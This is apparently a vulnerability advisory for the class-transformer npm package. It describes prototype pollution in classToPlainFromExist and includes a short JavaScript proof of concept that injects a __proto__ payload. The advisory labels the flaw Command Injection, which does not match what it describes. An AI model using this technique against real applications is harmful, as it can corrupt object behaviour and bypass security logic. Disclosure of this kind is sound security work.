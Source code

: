 # Overview

Affected versions of this package are vulnerable to Command Injection. the `classToPlainFromExist` function could be tricked into adding or modifying properties of `Object.prototype` using a `__proto__` payload.

## POC

```js
var root = require("class-transformer");
var payload = JSON.parse('{"__proto__": {"huntr": "dev"}}');
root.classToPlainFromExist(payload, {});
console.log({}.huntr);
```
